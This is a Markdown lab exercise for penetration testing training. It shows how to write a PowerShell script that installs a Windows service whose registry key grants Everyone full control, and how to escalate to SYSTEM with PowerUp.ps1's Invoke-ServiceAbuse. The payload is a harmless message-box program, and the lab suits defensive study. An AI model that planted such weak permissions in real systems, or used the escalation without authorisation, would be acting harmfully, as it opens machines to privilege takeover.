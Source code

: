 # Write A PS Script That Installs An Insecure Windows Service
An insecure Windows service is one that can be easily exploited by a Penetration Tester. These services often lack proper security protections and can be compromised through vulnerabilities in the code or weak passwords.

## References
- [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) by HarmJ0y
- [How to Set Permission on a Service Using Subinacl](http://www.waynezim.com/2010/02/how-to-set-permission-on-a-service-using-subinacl/) by Wayne Zimmerman
- [Privilege Escalation with Insecure Windows Service Permissions](https://medium.com/r3d-buck3t/privilege-escalation-with-insecure-windows-service-permissions-5d97312db107) by Nairuz Abulhul on Medium
- [Digging Deeper into Vulnerable Windows Services](https://www.blackhillsinfosec.com/digging-deeper-vulnerable-windows-services/) by Brian Fehrman on BlackHillsInfoSec
- [Windows Privilege Escalation](https://github.com/0xJs/RedTeaming_CheatSheet/blob/main/infrastructure/privesc_windows.md#Insecure-Service-Executables) by 0xJs on GitHub
- [Windows Privilege Escalation - Exploiting Insecure Service Permissions](https://www.youtube.com/watch?app=desktop&v=WCnuu9fF-pk) by HackerSploit on YouTube
- [PowerUp Cheatsheet](https://blog.certcube.com/powerup-cheatsheet/) by Mr X on CertCube Labs

## Tasks
- Research how to set up a Windows service with insecure configurations, such as weak permissions or allowing modifications by EVERYONE
- Create a PowerShell script that automates the creation of the insecure Windows service, incorporating the vulnerable configurations identified in the research
- Execute your PowerShell script to install the insecure Windows service on the target system
- Use PowerUp.ps1 to exploit the insecure Windows service that your script installed

## Recommended Approach
- Search the following keywords on Google: vulnerable windows service binpath
- Research how to modify the permissions of a Windows Service using SUBINACL.exe
- Research how to create a new Windows Service using sc.exe
- Create a vulnerable Windows Service that any user, regardless of their permission levels, can modify
- Use PowerUp.ps1 to exploit the vulnerable Windows Service and obtain unauthorised SYSTEM privileges on the machine

## Solutions With Scripts
1. Create a dummy malware executable, save the following C++ code as `dummymalware.cpp` and compile it into an executable using compilers like Dev-C++
   ```
   #include <windows.h>
   
   int main()
   {
       MessageBox(NULL, "I'm a Dummy Malware", "Alert", MB_OK | MB_ICONEXCLAMATION);
       return 0;
   }
   ```
2. Save the following PowerShell script as `insecureservice.ps1`. It will create a service called `InsecureService` that runs `dummymalware.exe`, and modifies service permissions so Everyone can modify the service, making it insecure
   ```
   # Define service variables
   $serviceName = "InsecureService"
   $serviceDisplayName = "Insecure Windows Service"
   $serviceDescription = "A vulnerable service with insecure permissions."
   $servicePath = "C:\Windows\System32\dummymalware.exe"  # You can specify any executable
   $serviceStartMode = "Automatic"
   
   # Step 1: Create the service
   New-Service -Name $serviceName -BinaryPathName $servicePath -DisplayName $serviceDisplayName -Description $serviceDescription -StartupType $serviceStartMode
   
   # Step 2: Modify registry permissions to make it insecure
   $acl = Get-Acl "HKLM:\SYSTEM\CurrentControlSet\Services\$serviceName"
   $rule = New-Object System.Security.AccessControl.RegistryAccessRule("Everyone", "FullControl", "Allow")
   $acl.SetAccessRule($rule)
   Set-Acl "HKLM:\SYSTEM\CurrentControlSet\Services\$serviceName" $acl
   
   Write-Host "$serviceName has been created with insecure permissions!"
   ```
3. Open PowerShell as Administrator, run `Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted` and then navigate to the folder where insecure service is stored and run `.\insecureservice.ps1`
4. To identify the insecure service with PowerUp.ps1, open PowerShell as Administrator, navigate to where PowerUp.ps1 is stored and run `Import-Module .\PowerUp.ps1`.
   To check for services with weak permissions, run
   ```
   Get-UnquotedService
   ```
   To check for services with writable executables, run
   ```
   Get-ModifiableServiceFile
   ```
   To check for service permissions, run
   ```
   Get-ServiceDetail -Name "InsecureService"
   ```
5. To exploit the insecure service with PowerUp.ps1, run
   ```
   Invoke-ServiceAbuse -Name "InsecureService" -Command "C:\Windows\System32\dummymalware.exe"
   ```
6. To delete the insecure service in PowerShell, use
   ```
   sc.exe delete InsecureService
   ```
7. 
